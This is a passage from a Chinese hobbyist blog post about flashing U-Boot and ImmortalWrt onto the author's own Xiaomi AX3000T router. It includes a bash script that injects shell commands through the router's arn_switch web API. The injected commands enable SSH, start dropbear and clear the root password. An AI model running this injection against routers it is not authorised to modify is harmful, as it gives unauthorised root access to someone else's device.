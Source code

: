 ```yaml
---
title: 小米路由器 AX3000T 刷入 U-boot + ImmortalWrt 过程记录
tags: []
date: 2024-05-25 19:14:00 +0800
---
```


## 杂话

没想到八百年不更一次博客，这次更新竟然又是写折腾路由器的...

折腾的原因是之前用的 AC2100 的 Padavan 在配合某些配置时愈加容易出现奇奇怪怪的问题，怀疑问题出在了内核以及特别有限的性能上，加之目前 Wi-Fi 6 甚至 Wi-Fi 7 时代都来了，之前那个也确实差不多该淘汰了，就考虑换一个。于是考虑了几个候选，一个是移动 RAX3000M，然后发现过了个年奸商炒的涨了不少钱。一个是 H68K Mini 这种类似各种 XX 派的玩意儿，但是一方面它本身就很贵，另一方面也担心 ARM 设备的功耗。再一个就是小米 AX3000T 了，也是最后选的产品。和上次一样，也是一次买了两个，另一个会给家里用。

## 步骤

尽管和之前一样，[OpenWrt 官网上的 Xiaomi AX3000T 硬件信息页面](https://openwrt.org/inbox/toh/xiaomi/ax3000t) 已经非常完整的介绍了整个过程实际要做的事情以及原因，但这次开搞之前参考了很多其它资料，最后没有 *完全* 参照 OpenWrt 官网写的步骤来搞。原因的话下面会说。步骤的话总体看也不复杂，大致也就是：拿 root ssh shell、刷第三方 U-boot、刷 ImmortalWrt。

下面的步骤主要是记录我折腾的过程，并非是指导教程目的的文章，所以有点流水账。哦对，顺口一提，我搞它的环境是 Arch Linux，下面的步骤也都是按我实际操作的情况记录的。

### 拿 root ssh shell

首先要做的是，插电然后跑一下首次安装向导，这样后面才能连它...但 **或许** 这个向导里的 SSID 应该填成自己想用的，因为似乎这个路由器带了 NFC 功能，会使用原厂固件设置的 SSID 和密码，而刷掉后这个功能仍然会存在，只是会继续用之前原厂固件最后一次设置的结果...不过我不太在乎这个特性，所以反正我是乱填的就是了...

顺便，别的资料指示说在开始之前需要降级固件到 1.0.47 版，但我看出厂固件就已经是这么个版本了，于是我也不用降级固件（（（（

接下来就是拿 ssh shell 了。其实怀疑小米大概故意的，会留着有漏洞的路由器固件版本给需要折腾的人用，于是也就直接利用后台漏洞来拿了。步骤的话和 OpenWrt 网站上写的一样（这也是 OpenWrt 网站上目前提供的唯一方案），把下面的内容保存为 `ssh.sh`，先登录路由器后台，然后复制从登录后的地址栏就可以得到的 stok 值，作为参数传给 `ssh.sh` 跑，然后就完了。

```bash
#!/bin/bash

if [ "$1" = "" ]; then
  echo "Usage: $0 [stok]"
  echo "e.g. $0 e6ea114ba2cddb0c70fbbc417bb2706c"
  echo "Copy the stok-string from a browser's URL-line, while being logged in to the router"
  exit 1
fi

curl -X POST "http://192.168.31.1/cgi-bin/luci/;stok=${1}/api/misystem/arn_switch" -d "open=1&model=1&level=%0Anvram%20set%20ssh_en%3D1%0A"
sleep 1
curl -X POST "http://192.168.31.1/cgi-bin/luci/;stok=${1}/api/misystem/arn_switch" -d "open=1&model=1&level=%0Anvram%20commit%0A"
sleep 1
curl -X POST "http://192.168.31.1/cgi-bin/luci/;stok=${1}/api/misystem/arn_switch" -d "open=1&model=1&level=%0Ased%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%22debug%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%0A"
sleep 1
curl -X POST "http://192.168.31.1/cgi-bin/luci/;stok=${1}/api/misystem/arn_switch" -d "open=1&model=1&level=%0A%2Fetc%2Finit.d%2Fdropbear%20start%0A"
sleep 1
curl -X POST "http://192.168.31.1/cgi-bin/luci/;stok=${1}/api/misystem/arn_switch" -d "open=1&model=1&level=%0Apasswd%20-d%20root%0A"
```
